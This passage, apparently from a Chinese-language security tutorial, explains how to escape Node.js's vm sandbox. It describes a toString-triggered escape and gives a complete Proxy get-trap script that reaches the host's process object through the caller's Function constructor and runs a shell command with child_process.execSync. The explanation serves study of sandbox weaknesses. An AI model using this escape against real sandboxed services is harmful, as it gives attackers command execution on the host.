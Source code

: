 此处的关键在于最后一行`console.log('Hello ' + res)`使用了`toString`方法，比较有局限性。

这个过程可以概述为：

1. 在 vm 的 sandbox 中创建对象 `a`，并定义 `a.toString = function(){ ... }`。这个函数是在沙箱 realm创建的（其 [[Realm]]/内部所属是 sandbox）。
2. `vm.runInContext(...)` 返回该对象引用 `res` 到宿主模块（host）。
3. 宿主做 `'Hello ' + res` —— JS 规范要求对 `res` 做 ToPrimitive（字符串上下文），于是会调用 `res.toString()`（这是宿主触发的调用）。
4. 当宿主执行 `res.toString()` 时，调用栈上有宿主的函数，比如当前模块的执行函数，因此在 `toString` 内部使用 `arguments.callee.caller` 可以访问调用它的那个函数对象，即宿主的 caller。
5. 这个 caller 是宿主 realm 的函数对象，其 `.constructor` 指向宿主 realm 的 `Function`。于是 `cc.constructor.constructor('return process')()` 或等价语句会在宿主 realm 生成并执行一个新的函数，这个函数运行在宿主 realm，因此能看到宿主全局（包括 `process` / `require`）。
6. 拿到 `process` 后再 `process.mainModule.require('child_process').execSync('whoami')` 就能在宿主上执行命令。

#### Proxy劫持Get逃逸

[Proxy 和 Reflect - 掘金](https://juejin.cn/post/6844904090116292616)

如果沙箱外没有执行字符串的相关操作来触发这个toString，并且也没有可以用来进行恶意重写的函数，我们可以用`Proxy`来劫持属性。

JavaScript 规范中， `[[Get]]`，用于读取属性的内部方法， `[[Set]]`，用于写入属性的内部方法，等等。这些方法仅在规范中使用，我们不能直接通过方法名调用它们。

我们可以利用`Proxy`绑架其调用属性的方法。代码如下：

```js
const vm = require("vm");

const script = 
`
(() =>{
    const a = new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('whoami').toString();
        }
    })
    return a
})()
`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res.abc);
console.log("a" + res);
```

在`const res = vm.runInContext(script, context)`中，`res`获得到了逃逸出来的`Proxy`对象，在下一行调用任意一个属性（不一定需要这个属性存在）时，可以调用`[[get]]`方法，进而执行恶意代码。

触发 `toString` 的常见场景：字符串拼接（`'a' + obj`）、模板字符串（``${obj}``）、显式调用 `String(obj)`、某些 `console`/inspect 操作（取决于实现），或 `obj + ''`。所以有多种办法可以调用。

#### 异常捕获与处理逃逸
